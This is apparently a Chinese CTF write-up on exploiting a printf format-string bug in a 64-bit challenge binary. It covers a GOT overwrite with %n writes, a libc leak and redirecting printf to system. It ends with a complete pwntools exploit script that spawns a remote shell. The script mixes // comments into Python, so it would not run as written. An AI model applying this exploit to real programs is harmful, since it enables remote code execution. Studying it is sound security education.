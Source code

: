# 格式化字符串
## 漏洞点

``` printf的汇编代码
.text:00000000004006E1                 lea     rdi, aInteresting ; "Interesting "
.text:00000000004006E8                 mov     eax, 0
.text:00000000004006ED                 call    _printf
.text:00000000004006F2                 lea     rax, [rbp+buf]
.text:00000000004006F9                 mov     rdi, rax        ; format  //很明显的格式化字符串漏洞
.text:00000000004006FC                 mov     eax, 0
.text:0000000000400701                 call    _printf
.text:0000000000400706                 lea     
```
如果不清楚，可以看其源码

```
unsigned __int64 sub_40069D()
{
  char buf; // [rsp+0h] [rbp-410h]
  unsigned __int64 v2; // [rsp+408h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("What do you mean this time? ");
  read(0, &buf, 0x400uLL);
  printf("Interesting ", &buf);
  printf(&buf);  //格式化字符串漏洞
  puts(" food for thought");
  return __readfsqword(0x28u) ^ v2;
}
```
## 利用漏洞点
1. 先说一下printf的格式化字符串：</br>
<ul>
  <li> %c：输出字符，配上%n可用于向指定地址写数据。</li>
  <li>%d：输出十进制整数，配上%n可用于向指定地址写数据。</li>
  <li>%x：输出16进制数据，如%i$x表示要泄漏偏移i处4字节长的16进制数据，%i$lx表示要泄漏偏移i处8字节长的16进制数据，32bit和64bit环境下一样。</li>
  <li>%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是   64bit。</li>
  <li>%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。</li>
  <li>%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。</li>
  <li>%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。</li>
</ul>

printf的参数是可变的，可以是一个，两个，或者没有。printf会根据内存顺序读取参数，如果有格式化字符，就顺序分析。</br>

2. __利用思路__:
<p>首先确定格式化字符串在栈中的偏移，这里想要一直利用格式化字符串的漏洞，就得让其“循环”起来，可以一直调用printf函数。这里修改函数中用的最多的函数put为main函数地址，可以多次利用printf的漏洞，通过%s来泄漏在printf前运行过的函数，这里通过泄漏read的地址来泄漏libc，从而得到system地址。最后修改printf的got地址为system地址，在程序调用printf时，实际上是调用的system函数，最后，send‘/bin/sh\x00’作为system的参数。</p>
<p>不能直接在命令行上输入\x78\x23\x34%6$s进行测试，因为程序会把上述命令解析为\,x,7,8单个的字节，所以不会出现我们想要的结果。</p>
## 利用脚本
这道题目的偏移量为6。</br>

```
from pwn import *
from LibcSearcher import LibcSearcher
r = remote("vps1.blue-whale.me",19904)
elf = ELF('./pwn1')
#context.log_level='debug'

//修改puts_got地址为main的地址，达到多次利用漏洞的效果
main_addr = 0x40069D
puts_got = elf.got['puts']
r.recvuntil("What do you mean this time? ")
payload = "a%" + str(main_addr-1) + "c%8$lln" + p64(puts_got)  //这里为什么不用hhn?因为地址中有\x00，由于64位下用户可见的内存地址高位都带有\x00，容易截断我们构造的内容，所以把地址放在后边。其实作用一样，地址放哪都一样。这里的8是因为a%..c和%8$lln占了两个参数，分别为第六和第七个参数。相对于printf为第7和第8个参数。
#print payload
r.sendline(payload)

//泄漏read地址
read_got = elf.got['read']
r.recvuntil("What do you mean this time? ")
payload = "AAAA%7$s" + p64(read_got) //AAAA%7$s占一个参数，为第六个参数
r.sendline(payload)
r.recvuntil("Interesting ")
read_addr=u64(r.recvuntil("\x30",drop=True)[4:].ljust(8,'\x00'))
print hex(read_addr)

//泄漏libc,得到system地址
libc = LibcSearcher("read",read_addr)
libcbase = read_addr-libc.dump('read') 
system_addr = libcbase +libc.dump('system')
print hex(system_addr)

//修改printf_got为system地址，由打印出的地址可以看出，除了最后三个字节，其他字节都一样，system地址分三次单字节写入即可。
printf_got = elf.got['printf']
print hex(printf_got)
first = system_addr & 0xff  //低字节
second = (system_addr>>8) & 0xff //倒数第二个字节
third = (system_addr>>16) & 0xff //最后一个字节
payload = "%" + str(first) + "c%11$hhn"   //这里的11，是前边格式化字符串占了参数的位置，即顺序后延，格式化字符的第一个参数是在偏移11的位置，n是把输出字符的个数写入相应位置，把低字节\x..转为十进制的字符串，c表示字符个数，%123c表示123个字符串，在写入内存时，又以十六进制的形式写入，即把低字节\x..写入
payload += "%" + str(256-first+second) + "c%12$hhn"  //这里为什么用256减，因为要想把第二个字节写入，得需要减去第一个字节的个数，有可能第二个字节小于第一个字节，相减得到负数就会出错，这里向高位借1，即0x100=256,相当于取模。比如0x550423,第二个字节为0x04,而第一个字节为0x23,0x100+0x04-0x23=0xE1,实际写入的是0xE1+0x23=0x104,但是是单字节写入，会把高位给移出，还是写入的0x04。
payload += "%" + str(256-second+third) + "c%13$hhn"
payload += 'AAAA' //剩下的字节随便填充即可

if len(str(first))<3: //这里保证写入的地址为8的整数倍
    payload += 'A'
if len(str(256-first+second))<3:
    payload += 'A'
if len(str(256-first+third))<3:
    payload += 'A'
payload += p64(printf_got)
payload += p64(printf_got + 1)
payload += p64(printf_got + 2)

r.sendline(payload)

r.sendline("/bin/sh\x00") //printf("/bin/sh")-->system("/bin/sh")

r.interactive()

```

## 参考文章：
http://www.sohu.com/a/130725162_472906 </br>
https://www.cnblogs.com/ichunqiu/p/9329387.html
